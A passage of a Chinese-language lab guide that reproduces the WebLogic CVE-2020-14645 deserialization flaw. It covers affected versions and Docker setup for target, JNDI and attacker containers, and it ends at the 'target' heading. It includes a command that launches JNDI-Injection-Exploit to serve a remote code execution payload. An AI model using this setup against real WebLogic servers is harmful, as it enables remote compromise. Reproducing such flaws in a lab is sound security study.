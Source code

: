 ## WebLogic UniversalExtractor反序列化漏洞(CVE-2020-14645)

简介

WebLogic 是美国 Oracle 公司的 Java 应用服务器，确切说是一个中间件，被用于WEB应用、数据库应用等的集成开发部署。

WebLogic 的 T3 协议易被利用，从而采用 JNDI 注入、反序列化方法达到远程代码执行的目标。

存在安全缺陷的版本：WebLogic12.2.1.4.x，【JDK版本：6u211以下；7u201以下；8u191以下】。本文使用JDK1.8.0_181。



1.3 漏洞挖掘能力条件



认为应掌握JNDI注入方法，并清晰WebLogic的coherence源码的逻辑功能。



1.4 利用方法

### **1.4.1 环境**

在 WIN10 的 WSL2 下用 docker 镜像 weblogic122140jdk8u181new:latest、ubuntu 创建三个容器，称为weblogic122140jdk8u181new、ubuntu-JNDI、ubuntu-gongji，作用分别为WebLogic 服务器、JNDI服务器、攻击机。

对于 weblogic122140jdk8u181new 容器【ip:172.17.0.2】的生成过程，需要进入【WeblogicEnvironment】文件夹，参照【https://github.com/QAX-A-Team/WeblogicEnvironment】方法即可生成，命令是：

- 

```
docker build --build-arg JDK_PKG=jdk-8u181-linux-x64.tar.gz --build-arg WEBLOGIC_JAR=fmw_12.2.1.4.0_wls_lite_generic.jar  -t weblogic122140jdk8u181new .
```

- 

```
docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name weblogic122140jdk8u181new weblogic122140jdk8u181new
```



对于由 ubuntu 镜像生成的 ubuntu-JNDI 容器【ip:172.17.0.3】，将 jdk-8u181-linux-x64.tar.gz、JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar拷贝至容器内，参照【https://www.cnblogs.com/hellojesson/p/11684299.html】安装好jdk，执行命令：

- 

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C touch /tmp/CVE -A 172.17.0.3
```



对于由ubuntu镜像生成的ubuntu-gongji容器【ip:172.17.0.4】，将jdk-8u181-linux-x64.tar.gz、CVE-2020-14645.jar拷贝至容器内，参照【https://www.cnblogs.com/hellojesson/p/11684299.html】安装好jdk。 



### **1.4.2 目标**
